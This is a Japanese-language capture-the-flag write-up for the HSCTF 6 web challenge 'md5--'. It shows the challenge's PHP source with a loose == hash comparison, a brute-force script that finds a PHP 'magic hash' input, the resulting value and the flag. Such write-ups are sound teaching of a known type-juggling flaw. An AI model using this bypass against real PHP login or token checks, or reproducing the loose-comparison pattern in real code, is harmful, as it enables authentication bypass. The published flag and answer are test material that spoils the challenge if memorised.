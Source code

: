 # HSCTF 6 md5-- [Web 171pts]

## 問題

Written by: dwang

md5-- == md4

https://md5--.web.chal.hsctf.com

Note: If the link above doesn't work, try https://md4.web.chal.hsctf.com

## 解法

与えられたURLを開くとPHPのソースコードが表示される
```php
<?php
$flag = file_get_contents("/flag");

if (!isset($_GET["md4"]))
{
    highlight_file(__FILE__);
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo $flag;
}
else
{
    echo "bad";
}
?>
```

`?md4=hogehoge`のようにパラメータを設定し、その文字列をMD4でハッシュ化した値が元の文字列と一致していればフラグが表示される。
ただこの比較が == でなされているので、型のチェックが甘い。文字列内に数値形式の文字が含まれると数値に変換される。<sup>[1]</sup>
つまり
`hash("md4", "0exxxxxxx") == "0eyyyyyyyyyy"`
となるようなハッシュを見つけることができれば、どちらも0と評価され条件が成立する。<sup>[2]</sup>
CLI版で総当たりで調べると5分くらい？で出てきた。

```php

<?php

for($i = 100000000; $i <= 1000000000; $i++){
	if($i%1000000 == 0){
		echo "\r[+] i = ".strval($i);
	}
  	$s = "0e".strval($i);
  	$x = hash("md4", $s);
  	if(preg_match("#0e\d{30}#", $x)){
		echo "\n";
	    echo $s;
	    echo "\n";
	    echo $x;
		echo "\n";
	    break;
  	}
}
echo "\n";
?>
```
結果として、`0e251288019`は`0e874956163641961271069404332409`となり、これをパラメータとして送るとフラグが得られた。


Flag: `hsctf{php_type_juggling_is_fun}`


## 参考
[1] https://www.php.net/manual/ja/language.operators.comparison.php

[2] https://www.php.net/manual/ja/language.types.string.php#language.types.string.conversion

